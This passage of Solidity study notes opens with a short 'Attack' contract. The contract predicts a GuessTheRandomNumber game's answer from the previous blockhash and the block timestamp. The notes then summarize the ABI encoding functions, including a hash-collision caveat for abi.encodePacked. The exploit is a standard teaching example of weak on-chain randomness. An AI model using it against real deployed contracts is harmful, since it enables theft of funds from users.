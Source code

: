 ```/*
contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    // Helper function to check balance
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

<br>

---

### ABI encoding and decoding functions

<br>

- `abi.decode`:
	- `(uint a, uint[2] memory b, bytes memory c) = abi.decode(data, (uint, uint[2], bytes))` decodes the abi encoded data. 
- `abi.encode`:
	- `abi.encode(...)` returns `(bytes memory)` encodes stuff using padding and hence no collisions when dynamic data is involved.
- `abi.encodePacked`:
	- `abi.encodePacked(...)` returns `(bytes memory) does packed encoding.
 	- NOT be used when >2 dynamic arguments are involved due to hash collision. for instance, A, AB and AA, B give the same encoding due to no padding.
- `abi.encodeWithSelector`:
	- `abi.encodeWithSelector(bytes4 selector, ...)` returns `(bytes memory)` same as `abi.encode` but prepends the selector.
 	- this is useful when doing raw txns, selector is used to specify function signature. 
- `abi.encodeCall`:
	- `abi.encodeCall(functionPointer, ...)` returns `(byte memory)`, the same as above but a function pointer is passed.
- `abi.encodeWithSignature`

<br>

----

### error handling

<br>
